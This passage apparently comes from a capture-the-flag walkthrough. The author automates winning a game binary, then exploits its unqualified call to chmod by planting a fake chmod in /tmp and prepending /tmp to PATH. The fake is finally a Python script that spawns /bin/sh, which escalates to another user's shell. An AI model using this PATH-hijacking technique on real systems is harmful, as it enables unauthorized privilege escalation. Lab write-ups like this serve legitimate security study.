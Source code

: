 ```python
   elif ret[0] == 'Final':
      print 'Done?'
      sock.close()
      sys.exit(0)

   # if we dont know what to do, just 'press enter'
   else:
      sock.send('\n')
sock.close()
```

I ran this in another session with `./game` running and won :P Once you win, the output results in:

```bash
!*!*!*!*! Congratulations, new high score (302785) !*!*!*!*!

I hear the faint sound of chmodding.......
```

... and ends. Heh, ok. Well that was probably not exactly what I hoped for, but nonetheless, the chmodding is at least a hint. The first thing that came to mind is a important file that was previously not available now possibly is as its been chmodded by `george` after winning the game. Or, if it is in fact a chmod that is being run, is it being called via a system command from its full path (/usr/bin/chmod), or just via chmod?

To test, I fired up another editor on `chmod.py` and just put a line to echo test. I `chmod +x` this and moved the file to `/tmp`. I then added `/tmp` to `PATH` via `export PATH=/tmp:$PATH`:

```bash
milk_4_life@hell:~$ python chmod.py          # test the script
Testing chmod exec
milk_4_life@hell:~$ cp chmod.py /tmp/chmod   # copy it to /tmp
milk_4_life@hell:~$ chmod +x /tmp/chmod      # make it executable
milk_4_life@hell:~$ /tmp/chmod               # test it
Testing chmod exec
milk_4_life@hell:~$ export PATH=/tmp:$PATH   # prefix PATH with /tmp
milk_4_life@hell:~$ chmod                    # test it without full path
Testing chmod exec
milk_4_life@hell:~$ ./game                   # start the game
I'm listening
Testing chmod exec                           # profit :)
```

With it confirmed that `chmod` was not called from its full path once you win the game (using our previously mentioned winning script :D), it was time to edit our `chmod` script to be slightly more useful:

```python
#!/usr/bin/python
import pty
pty.spawn('/bin/sh')
```

With this now in /tmp/chmod, I reran `./game.py`, and then `./play_game.py`. After 30 seconds on the session we started the game we had:
